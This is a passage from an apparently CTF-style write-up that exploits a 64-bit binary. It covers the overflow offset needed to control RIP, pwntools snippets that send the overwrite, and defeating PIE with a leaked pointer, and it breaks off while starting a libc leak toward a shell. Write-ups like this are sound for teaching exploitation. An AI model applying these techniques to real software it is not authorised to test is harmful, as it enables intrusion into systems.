 ![main](./ressources/main.png)
 
#### Buffer overflow

We can see a classic buffer overflow with a buffer of 32 char, but we can write more, thanks to read that allow us to write up to 0x200 bytes at the buffer address, that will allow us to control RIP (return address registry for x86).

So in order to control RIP, we need to send 32+8= 40 junk characters and then the next 8 bytes will be written in RIP.
```python
OFFSET = 40
RIP = p64(0xdeedbeef)

io = start()
io.sendline(b"A"*OFFSET+RIP)
```

Great now we can control RIP so we are able to jump were ever we want, as long as we got the address. (like main in order to relaunch the binary)

#### Defeat PIE
The program gives us a leak of a pointer to a string, that allow us to defeat PIE. We just need to calculate all needed functions with their offset to the leaked pointer.
```python
leak = int(io.recvline(),16) #receive leak

base = leak - 0x4010 #Base binary adresse
main = base + 0x1178 #Main start adresse
```
#### Leak libc
Now we are able to jump were ever we want and we know some addresses. But our goal is to be able to read the flag on the server, or at least get a shell.
To get a shell we need 2 things:
* "/bin/sh" string (or alternatives)
